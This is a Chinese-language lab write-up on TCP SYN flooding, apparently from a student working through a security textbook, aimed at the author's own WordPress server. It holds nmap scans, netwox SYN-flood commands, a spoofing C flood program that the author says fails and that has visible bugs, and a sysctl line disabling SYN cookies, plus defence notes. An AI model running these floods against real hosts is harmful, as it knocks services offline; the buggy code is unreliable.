



[toc]

## 0. 前言

来源：[《Computer Security》A Hands-on Approach](https://www.handsonsecurity.net/)   — Wenliang Du

所有的代码/文档见：[github](https://github.com/da1234cao/computer_security)

<br>

## 1. SYN 洪水攻击原理

知晓点套接字编程：[unix网络编程 前五章](https://blog.csdn.net/sinat_38816924/category_9811371.html)

了解TCP的三次握手：[实战！我用 Wireshark 让你“看见“ TCP](https://zhuanlan.zhihu.com/p/142665708)

明白数据封装和解封装过程: [MAC首部 IP首部 TCP首部介绍](https://blog.csdn.net/sinat_38816924/article/details/107558223) 

明白上面链接中的内容，看本文so easy。下图是SYN flooding Attack的主要思路。

攻击者修改SYN包中的源地址(为随机地址)，目标地址是受攻击的服务器。当服务器收到SYN包的时候，它使用一种数据结构Transmission Control Block(TCB)，来存储这次连接的信息，放入队列。此时，连接并没有建立。目前仅仅是三次握手的第一步完成，服务器状态为半开连接。服务器向客户端发送SYN+ACK包。由于源地址为随机地址，可能不存在，没有客户端向服务器发送正确的ACK包。过段时间，该TCB会超时消失。

**攻击者可以在短时间内发送大量的伪SYN包，占用服务器的TCB队列资源，致使正常用户无法连接**。

如果你问：一个SYN每次重复发送几个SYN+ACK？TCB queue大小如何设置？我不知道，没有去搜索验证。



下面我们使用netwox工具，分别从家庭局域网内的主机和服务器，向一个搭建wordpress的目标服务器(myself)，发送伪SYN包。

补充一个，使用自己构建的代码，发起SYN flooding攻击。(自行构建的代码有问题，目前我不知问题在哪)

最后介绍防御措施。

由于NET地址转换的缘故，非局域网内Random IPs并不能用不同的IP给目标服务器发送伪SYN包。但是Random IPs确可以使得发送主机不会接收到SYN+ACK包。即，虽然可以发起SYN flooding攻击，但是固定IP很容易被防御，可以参见：[DDOS 攻击的防范教程](http://www.ruanyifeng.com/blog/2018/06/ddos.html) 。

<br>

## 2. 寻找对象

寻找对象--》`49.234.233.219:80`

[不老的神器：安全扫描器Nmap渗透使用指南](https://www.freebuf.com/news/141607.html)

```shell
// 查看当前局域网有哪些主机
--命令
ifconfig --》 192.168.1.108
nmap -sP 192.168.1.108/24
---结果
Starting Nmap 7.60 ( https://nmap.org ) at 2020-07-22 12:34 CST
Nmap scan report for _gateway (192.168.1.1)
Host is up (0.0020s latency).
Nmap scan report for 192.168.1.101  --》手机
Host is up (0.022s latency).
Nmap scan report for dacao-X555LJ (192.168.1.108)  --》本机
Host is up (0.00010s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.45 seconds
-----------------------------------
-----------------------------------
// 机器有哪些端口开放
--命令
nmap 192.168.1.101  --》查看我的手机,没有端口开放
nmap 49.234.233.219 --》查看我的服务器
--结果
Nmap scan report for 49.234.233.219
Host is up (0.026s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http   ---》这个对应的是搭建的wordpress
5000/tcp closed upnp
-------------------------------------
-------------------------------------
```

<br>

## 3. 家庭局域网向外发起SYN flooding攻击。

家庭局域网并不适合向外发起`SYN flooding`。因为NET地址转换，导致之前随意生成的源地址失效。在服务端看来，从家庭局域网发出的`SYN flooding`的源地址都相同，[特征明显，相对而言比较容易被屏蔽](http://www.ruanyifeng.com/blog/2018/06/ddos.html)。

### 3.1 使用工具进行SYN flooding攻击

```shell
--SYN flooding命令
sudo apt install netwox
sudo netwox 76 -i 49.234.233.219 -p 80 -s raw
--结果查看命令
sudo netstat -tnap | grep ":80" | wc -l
--结果
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name  
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      5045/nginx: master  
tcp        0      0 172.17.0.4:80           103.40.221.154:36262    SYN_RECV    - 
tcp        0      0 172.17.0.4:80           103.40.221.154:33157    SYN_RECV    - 
tcp        0      0 172.17.0.4:80           103.40.221.154:17575    SYN_RECV    -         
tcp        0      0 172.17.0.4:80           103.40.221.154:31834    SYN_RECV    -         
tcp        0      0 172.17.0.4:80           103.40.221.154:40167    SYN_RECV    -         
tcp        0      0 172.17.0.4:80           103.40.221.154:58454    SYN_RECV    -         
tcp        0      0 172.17.0.4:80           103.40.221.154:57235    SYN_RECV    -          

```

### 3.2 NET地址转换

但是尴尬的是`Foreign Address`中的IP地址相同。推测下，可能是NET地址转换导致。

[网络地址转换NAT原理（易于理解）](https://blog.csdn.net/hzhsan/article/details/45038265) 网络地址端口转换`NAPT (Port-Level NAT)`,它将内部连接映射到外部网络中的一个单独的IP地址上，同时在该地址上加上一个由NAT设备选定的端口号。(正如上面 `Foreign Address`所示，IP相同，当端口不同)

那上面`103.40.221.154` 是路由器的公有IP？ 打开[ip138](https://www.ip138.com/)，发现并不是。。

我们尝试追踪下路由过程，如下所示，并没有什么发现。

[traceroute 查看路由信息](einverne.github.io/post/2017/06/traceroute.html) 下面我们只能看到每一跳的网关情况。一些行以星号表示，出现这样的情况，可能是防火墙封掉了 ICMP 的返回信息，所以得不到什么相关的数据包返回数据。

```shell
--命令
sudo apt install traceroute
traceroute 49.234.233.219
--结果
traceroute to 49.234.233.219 (49.234.233.219), 30 hops max, 60 byte packets
 1  _gateway (192.168.1.1)  8.574 ms  8.570 ms  8.561 ms
 2  10.131.32.1 (10.131.32.1)  19.337 ms  19.323 ms  19.310 ms
 3  172.20.0.101 (172.20.0.101)  13.009 ms 172.20.0.254 (172.20.0.254)  19.256 ms  19.250 ms
 4  172.31.15.13 (172.31.15.13)  19.251 ms  19.228 ms 172.31.16.13 (172.31.16.13)  20.484 ms
 5  172.31.7.9 (172.31.7.9)  14.031 ms  13.993 ms  14.416 ms
 6  10.4.40.1 (10.4.40.1)  16.647 ms  6.696 ms  8.957 ms
 7  * 10.4.19.1 (10.4.19.1)  35.333 ms  14.535 ms
 8  * * *
 9  * * 43.249.135.50 (43.249.135.50)  17.501 ms
10  * * 43.249.135.50 (43.249.135.50)  17.316 ms
11  * * *
12  * * *

```

这时候，发现一个比较尴尬的事情，[ip138](https://www.ip138.com/) 返回给我的是路由器的私有地址，和登录路由查询的结果相同。




> **私有网段,有A,B,C三个地址段**：
>
> - 10.0.0.0/8:10.0.0.0-10.255.255.255.
> - 172.16.0.0/12:172.16.0.0-172.31.255.255.
> - 192.168.0.0/16:192.168.0.0-192.168.255.255.

**这个“家里”[路由器](http://share.wukongwenda.cn/question/6748014228919025923/)没有公共IP，走的是上面`103.40.221.154` IP。**

### 3.3 抓包查看验证

[抓包神器 tcpdump 使用介绍](https://juejin.im/post/5e64571bf265da57104393a1) 。通过抓取的包，我们很容易看出每次的src IP都不同。

```shell
# 命令
sudo tcpdump -nn  dst 49.234.233.219 -s0 -c 3
# 结果
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on wlp3s0, link-type EN10MB (Ethernet), capture size 262144 bytes
16:30:30.029463 IP 159.163.149.149.49071 > 49.234.233.219.80: Flags [S], seq 1855945176, win 1500, length 0
16:30:30.029637 IP 32.176.8.116.34734 > 49.234.233.219.80: Flags [S], seq 535911327, win 1500, length 0
16:30:30.029671 IP 216.65.149.163.39905 > 49.234.233.219.80: Flags [S], seq 3269198780, win 1500, length 0
3 packets captured
281 packets received by filter
271 packets dropped by kernel

```

<br>

## 4. 使用拥有公有IP的服务器向目标发起SYN flooding攻击

所以我用另一台服务器(有公有IP，34.92.249.231)，重复上面的实验， `Foreign Address`还是IP相同，端口不同。这是为什么呢？**难道服务器也走NET地址转换？**

```shell
--SYN flooding命令
sudo apt install netwox
sudo netwox 76 -i 49.234.233.219 -p 80 -s raw
--目标服务器结果
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      5045/nginx: master  
tcp        0      0 172.17.0.4:80           34.92.249.231:26490     SYN_RECV    - 
tcp        0      0 172.17.0.4:80           34.92.249.231:34884     SYN_RECV    - 
```



<br>

## 5. 自行构建代码发起SYN flooding

下面的程序，有问题，`tcpdump`抓取不到内容。我目前不知道问题在哪。

```shell
sudo tcpdump -nn  dst 49.234.233.219 and port 80 -s0 -c 3
```

```c
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <stdlib.h>
#include <errno.h>
#include <netinet/tcp.h>
#include <netinet/ip.h>
#include <time.h>
#include <unistd.h>

#define DEST_IP "49.234.233.219"
#define DEST_PORT 80
#define PACKET_LEN 1000

// 我从网上找了一份计算校验和代码
// TCP:首部和数据校验和，整体长度；IP:首部校验和，首部长度：ihl；
unsigned short in_cksum(unsigned short *addr, int len)
{
    unsigned int sum = 0, nleft = len;
    unsigned short answer = 0;
    unsigned short *w = addr;

    while (nleft > 1) {
        sum += *w++;
        nleft -= 2;
    }
    if (nleft == 1) {
        *(__u_char *) (&answer) = *(__u_char *) w;
        sum += answer;
    }
    sum = (sum >> 16) + (sum & 0xffff);//将高16bit与低16bit相加

    sum += (sum >> 16);//将进位到高位的16bit与低16bit 再相加
    answer = (unsigned short)(~sum);
    return (answer);
}


void send_raw_ip_packet(struct iphdr *ippacket){

    // 创建一个原生套接字
    // IPPROTO_RAW表明我们将支持ip头部，系统不需要提供IP头部
    // IPPROTO_RAW同时表明允许IP_HDRINCL
    int sock = socket(AF_INET,SOCK_RAW,IPPROTO_RAW);

    // int enable = 1;
    // setsockopt(sock,IPPROTO_IP,IP_HDRINCL,&enable,sizeof(enable));

    // 提供目的地选项
    // sockaddr_in提供的结构体，用来构建IP头；现在IP头已经有了，应当不用提供这样的结构体
    // 书上说：提供目的地址，帮助内核获得目的IP对应的MAC地址
    struct sockaddr_in dest_info;
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr.s_addr = ippacket->daddr;

    printf("des:port -- %s:%uh\n",inet_ntoa(dest_info.sin_addr),ntohs(((struct tcphdr *)(ippacket + sizeof(struct iphdr)))->dest));
    // 发送包
    sendto(sock,ippacket,ntohs(ippacket->tot_len),0,(struct sockaddr *)(&dest_info),sizeof(dest_info));
    
    close(sock);
}


int main(void){
    // IPv4,数据包长度不超多65535
    // 超过MTU=1500，要分片
    // 凑个整，这里定义PACKET_LEN=1000
    char buffer[PACKET_LEN];
    struct iphdr *ipheader = (struct iphdr *)(buffer);
    struct tcphdr *tcpheader = (struct tcphdr *)(buffer + sizeof(struct iphdr));

    // 初始化随机数发生器
    srand(time(0));

    while (1){
        bzero(buffer,sizeof(buffer));

        // 填充TCP头部
        tcpheader->source = rand();
        tcpheader->dest = htons(DEST_PORT);
        tcpheader->seq = 0;
        tcpheader->ack_seq = 0;
        tcpheader->doff = 5;
        tcpheader->fin=0;
        tcpheader->syn=1;
        tcpheader->rst=0;
        tcpheader->psh=0;
        tcpheader->ack=0;
        tcpheader->urg=0;
        tcpheader->window = htons(666);
        tcpheader->check = in_cksum((unsigned short *)tcpheader,sizeof(tcpheader));
        tcpheader->urg_ptr = 0;

        // 填充IP头部
        ipheader->ihl = 5;
        ipheader->version = 4;
        ipheader->tos = 0;
        ipheader->tot_len = PACKET_LEN;
        ipheader->id = htons(PACKET_LEN);
        ipheader->frag_off = 0;
        ipheader->ttl = 255;
        ipheader->protocol = IPPROTO_TCP;
        ipheader->check = 0;
        ipheader->saddr = rand();
        ipheader->daddr = inet_addr(DEST_IP);
        ipheader->check = in_cksum((unsigned short *)ipheader,ipheader->ihl);

        // printf("ready to send!");
        send_raw_ip_packet(ipheader);
    }
    
    return 0;
}
```

<br>

## 6. 防御

参考：[深入浅出TCP中的SYN-Cookies](https://segmentfault.com/a/1190000019292140) 、[SYN cookie --wiki](https://zh.wikipedia.org/wiki/SYN_cookie)

```shell
// 查看和关闭防御
sudo sysctl -a | grep net.ipv4.tcp_syncookies
sudo sysctl -w net.ipv4.tcp_syncookies=0
```

仅仅从概念上理解。

在ubuntu中，SYN cookie策略是默认开启的。只有当服务器出现大量半连接的时候，SYN cookie策略才会被触发。SYN cookie机制的想法是在服务器**仅收到SYN之后根本不分配资源;仅当服务器收到最终的ACK数据包时才分配资源。这解决了SYN泛洪攻击问题**。

由于服务器不保留有关SYN数据包的任何信息，因此无法验证是否接收到的ACK数据包是先前SYN ACK数据包的结果，或者仅仅是欺骗ACK数据包。欺骗性ACK数据包泛洪攻击服务器，每个ACK数据包都会导致服务器分配宝贵的资源。此攻击可能比SYN泛洪攻击更具危害性。SYN Cookies的想法为该问题提供了一种优雅的解决方案。

 **SYN cookie是TCP服务器对初始TCP序列号的特殊选择**。服务器收到SYN数据包后，它使用只有服务器知道的密钥，根据数据包中的信息（包括IP地址，端口号和序列号）计算出密钥散列。该哈希值H将用作放置在发送回客户端的服务器SYN + ACK数据包中的初始序列号。值H称为SYN cookie。如果客户端是攻击者，则数据包将不会到达攻击者（在SYN泛洪攻击中，客户端IP地址是伪造的）。如果客户端不是攻击者，它将获取数据包，并发送回ACK数据包。服务器收到此ACK数据包(ack=H+1)后，可以通过重新计算cookie来检查确认字段内的序列号是否有效。

根据数据包中的信息。验证将避免出现ACK flonding。并确保ACK数据包是先前SYN + ACK数据包的结果。由于攻击者不知道计算cookie所用秘钥，因此他们无法轻松伪造有效的cookie。使用SYN cookie机制，可以有效地抵制SYN泛洪攻击。尽管攻击者仍然可以向服务器泛洪许多SYN数据包，但他们将无法消耗服务器资源，因为什么都没有保存。攻击者还可以向服务器发送许多ACK数据包，但是由于他们在确认字段中没有有效的SYN cookie，因此它们不会触发服务器上的资源分配。

SYN Cookies 的使用不与任何协议定义冲突，照理来说它该和所有的 TCP 实现兼容。然而，当 SYN Cookies  使用的时候，会发生两种值得注意的变化：首先，服务器只能编码八种 MSS 数值，因为只有 3 位二进制空间可用。其次，这个服务器必须拒绝所有的 TCP 选用项，例如大型窗口和时间戳，因为服务器会在信息被用其他方式存储时丢弃 SYN 队列条目。尽管这些限制将不可避免地导致一个不如最佳的体验，它们的效果很少被客户端注意到——这些改变只在被攻击时值得注意。在这样的情况下，牺牲 TCP 选项来保护连接一般被认为是合乎情理的。 